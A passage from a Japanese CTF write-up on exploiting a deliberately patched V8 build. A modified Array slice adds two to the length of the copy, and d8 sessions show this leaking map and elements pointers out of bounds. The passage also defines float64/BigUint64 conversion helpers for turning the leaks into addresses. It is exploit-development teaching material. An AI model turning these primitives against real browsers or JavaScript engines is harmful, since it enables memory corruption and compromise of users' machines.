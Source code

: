 おそらく本質となっているのは一番上の箇所で、ファイル名も含めてGuessすると[`slice`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/Array/slice)メソッドによってシャローコピーで新しい配列を作った際にlengthを2だけ増やすというものである。実際にこれをd8のシェル上で確かめてみる。

```txt
$ ./d8
V8 version 8.7.9
d8> let l1 = [1.1];
undefined
d8> let l2 = l1.slice(0);
undefined
d8> l2.length
3
d8> l1.length
1
d8> l2
[1.1, , ]
d8> l1
[1.1]
d8> 
```

通常の配列`l1`のスライス`l2`を作ったところ、lengthが2だけ増えた3になっていることが確認出来る。これによって`l2`はメモリ上で1.1に続く要素を2つ分参照できることになり、先に述べたようにそれらはmapとelementsを指すポインタに対応する。これでこれらのアドレスリークが実現出来たことになるのだが、型がfloat64の値として得られるため、ポインタとして扱ってオフセットの加算等をするには、符号なしの整数に変換する必要がある。

このために`ArrayBuffer`を使って次のようなfloat64とBigUint64を相互に変換する関数を定義した。

```javascript
let buf = new ArrayBuffer(8);
let float_buf = new Float64Array(buf);
let uint_buf = new BigUint64Array(buf);

function f2i(v) {
    float_buf[0] = v;
    return uint_buf[0];
}

function i2f(v) {
    uint_buf[0] = v;
    return float_buf[0];
}
```

d8では、`--shell`オプションを付けてスクリプトを実行することで、実行後のコンテキストでREPLを起動出来るのでこれらの関数を定義したファイルを実行して動作を確認してみる。

```txt
$ ./d8 --shell --allow-natives-syntax utils.js
V8 version 8.7.9
d8> let l1 = [1.1, 2.2]
undefined
d8> let l2 = l1.slice(0)
undefined
d8> let l_map = l2[2]
undefined
d8> let l_elm = l2[3]
undefined
d8> console.log("0x" + f2i(l_map).toString(16))
0x80426dd082438fd
d8> console.log("0x" + f2i(l_elm).toString(16))
0x808086339
undefined
d8> %DebugPrint(l2)   
DebugPrint: 0x3af708086351: [JSArray]
 - map: 0x3af7082438fd <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x3af70820a555 <JSArray[0]>
 - elements: 0x3af708086339 <FixedDoubleArray[2]> [PACKED_DOUBLE_ELEMENTS]
```

[^1]: Heap Exploitの簡単な問題を解いたことがある(私自身がこれ)ぐらいを想定しているが、AARとAAWが出来ると何が嬉しいかなんとなくわかっていれば問題ないと思う
[^2]: 手元でビルドするメリットも存在し、[katagaitai CTF勉強会 #11 Pwnable編 - PlaidCTF 2016 Pwnable666 js_sandbox / katagaitai CTF #11 - Speaker Deck](https://speakerdeck.com/bata_24/katagaitai-ctf-number-11?slide=28)によれば、printfやインラインアセンブリ(`int3`)によるデバッグの効率化等があるらしい
[^3]: 脆弱性を埋め込むパッチを埋め込んでいない場合は、配列の外側を参照することになるためundefinedになる